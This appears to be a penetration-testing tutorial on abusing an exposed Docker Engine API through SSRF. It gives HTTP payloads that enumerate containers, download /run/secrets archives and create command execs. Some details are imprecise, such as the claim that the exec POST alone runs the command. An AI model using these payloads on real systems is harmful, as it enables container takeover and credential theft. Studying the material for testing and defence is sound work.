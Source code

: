```yaml
---
title: Exploiting Docker Metadata via SSRF Attacks
description: Learn how to exploit Docker metadata and API through SSRF attacks to
  compromise containers securely and effectively.
keywords:
- Docker
- SSRF
- Docker Engine API
- container metadata
- exploitation techniques
- Docker security
- metadata service
- container compromise
- API exposure
- unprotected endpoints
---
```


# Docker

## Context

In this guide, we will explore the exploitation of Docker metadata and the Docker Engine API through Server-Side Request Forgery (SSRF) to compromise containers. The guide assumes an understanding of key concepts such as containerization, basic orchestration, metadata service exploitation, and the mechanics of SSRF attacks. This knowledge is crucial for successfully navigating and exploiting vulnerabilities associated with Docker's exposed interfaces and metadata.

## Theory

### Docker Engine API Exposure

The Docker Engine API is a RESTful interface allowing for the management of Docker containers, images, and services. When the Docker API is exposed, either through TCP (commonly on port 2375) or a unix socket, it provides significant control over the Docker daemon. Without proper protection, such exposure can be exploited to gain unauthorized control. Unprotected Docker API endpoints are particularly vulnerable to SSRF attacks, as they may allow malicious actors to enumerate containers, create new ones, or manipulate existing containers without authentication.

### SSRF to Docker API Attack Surface

The attack surface for SSRF on Docker API is substantial, especially when the API is exposed. Attackers leverage SSRF vulnerabilities to send crafted HTTP requests to Docker API endpoints accessible via localhost or unix socket paths. A typical SSRF payload might target the endpoint `http://127.0.0.1:2375/v1.24/containers/json`, used to enumerate existing containers. The Docker API on TCP/2375, by default, lacks any form of authentication, further expanding the potential for exploitation.

### Container Metadata and Sensitive Endpoints

Docker containers maintain metadata that includes their configurations, environment variables, and mounted secrets. By exploiting SSRF vulnerabilities, attackers may access sensitive endpoints such as `/secrets` or `/service`, potentially exposing critical data such as credentials or secret keys stored within containers. Access to such data can have severe security implications.

## Practice

### Enumerate Docker Containers via SSRF

To enumerate Docker containers, you can utilize an SSRF vulnerability to send requests to the Docker API.

- **Payload:**

  ```http
  GET http://127.0.0.1:2375/v1.24/containers/json
  ```

  This SSRF payload will list the running Docker containers.

- **Review:** Examine the JSON response to identify container IDs, names, and images. This enumeration provides insights into the current container environment.

- **Outcome:** Successfully enumerating containers grants visibility into active containers and their metadata.

### Extract Secrets from Container Endpoints

To retrieve secrets from containers, you can target specific endpoints to download sensitive information.

- **Payload:**

  ```http
  GET http://127.0.0.1:2375/v1.24/containers/<container_id>/archive?path=/run/secrets
  ```

  Replace `<container_id>` with a valid container ID identified in the enumeration step.

- **Review:** Download and inspect the archive to discover sensitive files or embedded credentials within the container.

- **Outcome:** Gain access to secrets or credentials, which may provide further footholds into the system.

### Execute Commands in Containers via SSRF

Executing commands within containers can be performed by crafting API requests to the Docker API.

- **Payload:**

  ```http
  POST http://127.0.0.1:2375/v1.24/containers/<container_id>/exec
  {
      "AttachStdout": true,
      "AttachStderr": true,
      "Cmd": ["/bin/sh", "-c", "id"]
  }
  ```

  This payload will initiate command execution in the specified running container.

- **Review:** Capture and evaluate the command output for revealing information about user privileges or environment settings.

- **Outcome:** Successful execution results in command execution within a targeted Docker container, potentially leading to privilege escalation.

## Tools

- **curl**
- **Burp Suite**
- **Postman**

These tools are essential for crafting and delivering SSRF payloads, inspecting HTTP requests, and managing API interactions during the exploitation process.